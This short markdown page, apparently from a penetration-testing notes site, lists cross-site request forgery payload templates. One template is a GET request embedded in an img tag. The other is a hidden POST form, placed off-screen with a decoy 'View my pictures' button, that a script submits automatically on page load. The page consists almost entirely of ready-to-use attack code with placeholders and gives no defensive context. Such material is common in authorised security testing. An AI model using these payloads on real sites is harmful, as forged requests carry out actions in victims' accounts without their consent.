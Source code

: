 ```yaml
---
title: Vulnerabilities
category: Web Application
order: 2
---
```


> **CSRF**
GET:
{% highlight html %}
<img src="http://<ip_of_site>/form.php?<parameter>=<value>
{% endhighlight %}

POST:
{% highlight html %}
<form  ID=CSRF action="<website>" method="POST">

<input type="hidden" name="<paramater>" value="<value>"/>

<input type="submit" value="View my pictures" style="position: absolute; left: -9999px; width: 1px; height: 1px;"

       tabindex="-1"/>

</form>

<script>document.getElementById('CSRF').submit();</script>

{% endhighlight %}


